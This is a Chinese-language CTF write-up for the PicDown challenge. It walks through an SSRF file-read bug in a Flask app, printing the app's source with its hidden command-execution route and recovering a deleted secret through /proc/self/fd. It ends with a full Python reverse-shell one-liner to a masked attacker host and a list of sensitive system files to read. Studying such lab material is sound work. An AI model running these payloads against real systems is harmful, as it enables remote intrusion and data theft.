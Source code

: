 # \[网鼎杯 2020 白虎组]PicDown

## \[网鼎杯 2020 白虎组]PicDown

## 考点

* SSRF
* 任意文件读取
* Flask代码审计

## wp

除了一个框啥都没有，F12看到了请求的参数`/page?url=`

![](<../../.gitbook/assets/image (16) (1).png>)

一开始以为PicDown是下载图片，试了一下发现就是SSRF

![](<../../.gitbook/assets/image (18) (1) (1).png>)

尝试目录穿越文件读取，最后有个app用户

![](<../../.gitbook/assets/image (20) (1).png>)

尝试读取flag，发现可以直接读`http://b7ce4ee5-2c98-41db-beae-1955d540e6bf.node4.buuoj.cn:81/page?url=/flag`访问得到一个图片，应该是非预期了。

![](<../../.gitbook/assets/image (17) (1) (1).png>)

读取`/proc/self/cmdline`文件，得到`python2 app.py`

访问`/proc/self/environ`得到如下

```
MAIL=/var/mail/app
USER=app
HOME=/home/app
LOGNAME=app
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SHELL=/bin/sh
PWD=/app
```

访问`app.py`，直接访问?url=app.py

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到`app.py`在读取`/tmp/secret.txt`后把它删除，然后我们要在`/no_one_know_the_manager`传递一个和`secret.txt`内容相同的字符串才能getshell。虽然它删除了文件，但是是有读取缓存的，在`/proc/pid/fd/`中，一个一个试不难试出来在`/proc/self/fd/3`

![](<../../.gitbook/assets/image (19) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

由于无回显，这又是用的python2，所以直接用python反弹shell即可

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("****",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](<../../.gitbook/assets/image (8) (1) (1).png>)

## 小结

1. 在读取文件时，可以考虑的文件`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，`/etc/hosts`
